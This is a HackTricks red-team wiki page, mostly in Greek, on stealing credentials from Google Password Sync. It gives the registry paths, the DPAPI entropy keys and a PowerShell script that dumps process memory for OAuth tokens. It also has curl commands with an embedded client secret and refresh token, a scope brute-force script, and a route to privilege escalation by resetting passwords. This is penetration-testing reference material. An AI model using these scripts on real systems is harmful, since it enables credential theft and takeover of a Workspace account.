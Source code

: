 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Αυτή είναι η δυαδική και υπηρεσία που προσφέρει η Google προκειμένου να **διατηρεί συγχρονισμένους τους κωδικούς πρόσβασης των χρηστών μεταξύ του AD** και του Workspace. Κάθε φορά που ένας χρήστης αλλάζει τον κωδικό του στο AD, αυτός αποστέλλεται στην Google.

Εγκαθίσταται στο `C:\Program Files\Google\Password Sync` όπου μπορείτε να βρείτε τη δυαδική `PasswordSync.exe` για να την ρυθμίσετε και `password_sync_service.exe` (η υπηρεσία που θα συνεχίσει να τρέχει).

### GPS - Configuration

Για να ρυθμίσετε αυτή τη δυαδική (και υπηρεσία), είναι απαραίτητο να **της δώσετε πρόσβαση σε έναν Super Admin principal στο Workspace**:

* Συνδεθείτε μέσω **OAuth** με την Google και στη συνέχεια θα **αποθηκεύσει ένα token στο μητρώο (κρυπτογραφημένο)**
* Διαθέσιμο μόνο σε Domain Controllers με GUI
* Δίνοντας κάποια **credentials Service Account από το GCP** (json αρχείο) με δικαιώματα να **διαχειρίζεται τους χρήστες του Workspace**
* Πολύ κακή ιδέα καθώς αυτά τα credentials δεν λήγουν ποτέ και θα μπορούσαν να χρησιμοποιηθούν κακόβουλα
* Πολύ κακή ιδέα να δώσετε πρόσβαση σε SA πάνω από το workspace καθώς ο SA θα μπορούσε να παραβιαστεί στο GCP και θα είναι δυνατό να γίνει pivot στο Workspace
* Η Google το απαιτεί για domain controlled χωρίς GUI
* Αυτά τα creds αποθηκεύονται επίσης στο μητρώο

Όσον αφορά το AD, είναι δυνατό να υποδείξετε να χρησιμοποιήσει το τρέχον **context εφαρμογών, ανώνυμο ή κάποια συγκεκριμένα credentials**. Εάν επιλεγεί η επιλογή credentials, το **username** αποθηκεύεται μέσα σε ένα αρχείο στο **δίσκο** και ο **κωδικός πρόσβασης** είναι **κρυπτογραφημένος** και αποθηκεύεται στο **μητρώο**.

### GPS - Dumping password and token from disk

{% hint style="success" %}
Note that [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) is capable to detect **GPS**, get information about the configuration and **even decrypt the password and token**.
{% endhint %}

Στο αρχείο **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** είναι δυνατό να βρείτε μέρος της ρύθμισης όπως το **`baseDN`** του AD που έχει ρυθμιστεί και το **`username`** των credentials που χρησιμοποιούνται.

Στο μητρώο **`HKLM\Software\Google\Google Apps Password Sync`** είναι δυνατό να βρείτε το **κρυπτογραφημένο refresh token** και τον **κρυπτογραφημένο κωδικό πρόσβασης** για τον χρήστη AD (αν υπάρχει). Επιπλέον, εάν αντί για ένα token, χρησιμοποιηθούν κάποια **credentials SA**, είναι επίσης δυνατό να βρείτε αυτά κρυπτογραφημένα σε αυτή τη διεύθυνση μητρώου. Οι **τιμές** μέσα σε αυτό το μητρώο είναι μόνο **προσβάσιμες** από **Administrators**.

Ο κρυπτογραφημένος **κωδικός πρόσβασης** (αν υπάρχει) είναι μέσα στο κλειδί **`ADPassword`** και είναι κρυπτογραφημένος χρησιμοποιώντας το **`CryptProtectData`** API. Για να τον αποκρυπτογραφήσετε, πρέπει να είστε ο ίδιος χρήστης με αυτόν που ρύθμισε τον συγχρονισμό κωδικών πρόσβασης και να χρησιμοποιήσετε αυτή την **entropy** όταν χρησιμοποιείτε το **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Το κρυπτογραφημένο token (αν υπάρχει) είναι μέσα στο κλειδί **`AuthToken`** και είναι κρυπτογραφημένο χρησιμοποιώντας το **`CryptProtectData`** API. Για να το αποκρυπτογραφήσετε, πρέπει να είστε ο ίδιος χρήστης με αυτόν που ρύθμισε τον συγχρονισμό κωδικών πρόσβασης και να χρησιμοποιήσετε αυτή την **entropy** όταν χρησιμοποιείτε το **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Επιπλέον, είναι επίσης κωδικοποιημένο χρησιμοποιώντας base32hex με το λεξιλόγιο **`0123456789abcdefghijklmnopqrstv`**.

Οι τιμές entropy βρέθηκαν χρησιμοποιώντας το εργαλείο. Ρυθμίστηκε για να παρακολουθεί τις κλήσεις προς το **`CryptUnprotectData`** και **`CryptProtectData`** και στη συνέχεια το εργαλείο χρησιμοποιήθηκε για να εκκινήσει και να παρακολουθήσει το `PasswordSync.exe` το οποίο θα αποκρυπτογραφήσει τον ρυθμισμένο κωδικό πρόσβασης και το auth token στην αρχή και το εργαλείο θα **δείξει τις τιμές για την entropy που χρησιμοποιήθηκε** και στις δύο περιπτώσεις:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Σημειώστε ότι είναι επίσης δυνατό να δείτε τις **αποκρυπτογραφημένες** τιμές στην είσοδο ή έξοδο των κλήσεων σε αυτές τις APIs επίσης (σε περίπτωση που κάποια στιγμή το Winpeas σταματήσει να λειτουργεί).

Σε περίπτωση που ο συγχρονισμός κωδικών πρόσβασης έχει **ρυθμιστεί με SA credentials**, θα αποθηκευτεί επίσης σε κλειδιά μέσα στο μητρώο **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Dumping tokens from memory

Ακριβώς όπως με το GCPW, είναι δυνατό να κάνετε dump τη μνήμη της διαδικασίας του `PasswordSync.exe` και των διαδικασιών `password_sync_service.exe` και θα είστε σε θέση να βρείτε refresh και access tokens (αν έχουν ήδη παραχθεί).\
Υποθέτω ότι θα μπορούσατε επίσης να βρείτε τα ρυθμισμένα credentials του AD.

<details>

<summary>Dump <code>PasswordSync.exe</code> and the <code>password_sync_service.exe</code> processes and search tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Δημιουργία διαπιστευτηρίων πρόσβασης από ανανεωτικά διαπιστευτήρια

Χρησιμοποιώντας το ανανεωτικό διαπιστευτήριο, είναι δυνατή η δημιουργία διαπιστευτηρίων πρόσβασης χρησιμοποιώντας το και το αναγνωριστικό πελάτη και το μυστικό πελάτη που καθορίζονται στην παρακάτω εντολή:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
Σημειώστε ότι ακόμη και αν έχετε ένα refresh token, δεν είναι δυνατό να ζητήσετε οποιοδήποτε scope για το access token, καθώς μπορείτε να ζητήσετε μόνο τα **scopes που υποστηρίζονται από την εφαρμογή όπου δημιουργείτε το access token**.

Επίσης, το refresh token δεν είναι έγκυρο σε κάθε εφαρμογή.
{% endhint %}

By default GPS won't have access as the user to every possible OAuth scope, so using the following script we can find the scopes that can be used with the `refresh_token` to generate an `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Και αυτό είναι το αποτέλεσμα που πήρα τη στιγμή που έγραφα:
```
https://www.googleapis.com/auth/admin.directory.user
```
Ποιο είναι το ίδιο που παίρνετε αν δεν υποδείξετε καμία έκταση.

{% hint style="danger" %}
Με αυτή την έκταση θα μπορούσατε **να τροποποιήσετε τον κωδικό πρόσβασης ενός υπάρχοντος χρήστη για να κλιμακώσετε τα προνόμια**.
{% endhint %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στο** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) ή στο [**telegram group**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
